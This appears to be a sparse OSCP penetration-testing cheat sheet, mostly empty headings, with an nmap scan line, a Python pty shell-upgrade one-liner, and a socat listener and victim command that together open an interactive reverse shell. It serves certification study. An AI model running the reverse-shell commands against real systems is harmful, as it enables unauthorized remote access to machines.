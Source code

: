 # OSCP
Offensive Security Certified Professional is an ethical hacking certification offered by Offensive Security that teaches penetration testing methodologies and the use of the tools included with the Kali Linux distribution.
# Enumeration
## NMAP
nmap -sV -sS 127.0.0.1 (all ports)
## SMB
## Dirbuster
# Payloads
## msfvenom
# Brute Force
# Exploits
# Shell Upgrade
## Python
python -c 'import pty; pty.spawn("/bin/bash")'
## Socat
Listener: socat file:`tty`,raw,echo=0 tcp-listen:4444
Victim: socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:127.0.0.1:4444

